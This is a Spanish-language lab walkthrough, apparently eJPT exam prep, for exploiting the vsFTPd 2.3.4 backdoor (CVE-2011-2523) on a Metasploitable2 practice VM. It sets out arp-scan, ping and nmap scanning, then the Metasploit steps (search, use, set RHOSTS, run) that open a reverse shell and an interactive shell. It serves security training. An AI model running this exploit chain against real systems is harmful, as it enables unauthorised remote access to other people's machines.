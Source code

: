 
----
- TAG:  #Introducción #Metasploit #vsftpd #Linux
----
# Explotación de Vulnerabilidades con vsFTPd

En esta ocasión, vamos a cambiar la vulnerabilidad pero prácticamente será de la misma manera que lo hicimos con **EternalBlue**. Durante el examen, el tipo de ataque que nos pueda tocar es un misterio, así que es importante estar preparados.

## Descargar y Configurar Metasploitable2

Lo primero que haremos es descargarnos otra máquina vulnerable para practicar con **vsftpd**. Utilizaremos la famosa máquina [Metasploitable2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2). Descarguen la última versión y se les descargará un archivo comprimido.

1. Extraemos el archivo.
2. Abrimos nuestro virtualizador (VirtualBox o VMware).
3. Damos en **Nueva**.
4. Le asignamos el nombre pero no cargamos ningún archivo todavía.
5. Ponemos el tipo de sistema operativo en **Linux**.
6. Damos a siguiente.
7. En **Disco duro virtual**, seleccionamos la opción de **Usar un archivo de disco duro virtual existente** y cargamos el archivo de **Metasploitable2**. Seleccionamos y continuamos con la instalación.
8. Antes de encender la máquina, no olviden ir a **Configuración** y seleccionar la opción de red en **Adaptador Puente**, ya que es muy importante para la conexión inalámbrica entre nuestras máquinas.
9. Si les carga el inicio de un login, se ha instalado correctamente. El usuario es trabajo nuestro conseguirlo 😉

## Identificar la Máquina Metasploitable2

Desde nuestra máquina atacante, podemos realizar un **arp-scan**:

```bash
arp-scan -I wlan0 --localnet
```

Para poder encontrar la nueva máquina **Metasploitable2**. Una vez identificada, le podemos realizar un `ping`:

```bash
ping -c 1 1.2.3.4
```

En este output, encontraremos que el **ttl** muestra otro número diferente, ya que nos estamos enfrentando a una máquina **Linux**.

## Escaneo con Nmap

Si realizamos un escaneo con **nmap**, veremos que tiene muchos puertos abiertos con varias vulnerabilidades. Es hora de aprender a cómo vulnerarlas, ya que nos permite practicar con varias vulnerabilidades:

```bash
nmap -p- --open -sS -sV --min-rate 5000 -n -vvv -Pn 1.2.3.4 -oN escaneo
```

Empezaremos escaneando el puerto `21` para encontrar vulnerabilidades utilizando **nmap**:

```bash
nmap --script "vuln" -p21 1.2.3.4
```

Perfecto, ahora nos muestra que es vulnerable y nos indica el **CVE-2011-2523**.

## Utilizar Metasploit para Explotar vsFTPd

Abrimos nuestro **msfconsole** (Metasploit) y buscamos con la función **search**. Si no nos muestra resultados, intenten de otra manera:

```bash
search vsFTPd 2.3.4
```

De esta manera sí encontrará información, ya que en Metasploit algunos datos no se encuentran con los CVE sino con el nombre de la vulnerabilidad.

## Seleccionar y Configurar el Exploit

Seleccionamos el exploit:

```msfconsole
msf6 > use 0 
```

Una vez seleccionado el exploit, vemos las opciones:

```msfconsole
msf6 > show options
```

Aquí veremos otros tipos de opciones, pero será casi lo mismo. Asignamos la dirección IP de nuestra máquina víctima:

```msfconsole
msf6 > set RHOSTS 1.2.3.4
```

En **RPORT** por lo general suele estar asignado en el puerto **21**, ya que este servicio **vsFTPd** corre por este puerto. Revisamos que esté asignado correctamente con un `show options`.

## Ejecutar el Exploit

Si está todo bien, ponemos a correr el exploit:

```bash
msf6 > run 
```

Lo que pasa a continuación es algo aleatorio, ya que recibimos la reverse shell por un puerto aleatorio, procedente de la máquina víctima.

Una vez dentro, podemos enviar una `shell` para obtener una consola interactiva:

```msfconsole
shell
```

Esto es algo que debemos dominar muy bien, ya que es algo que nos tocará hacer muy seguido en la eJPT.

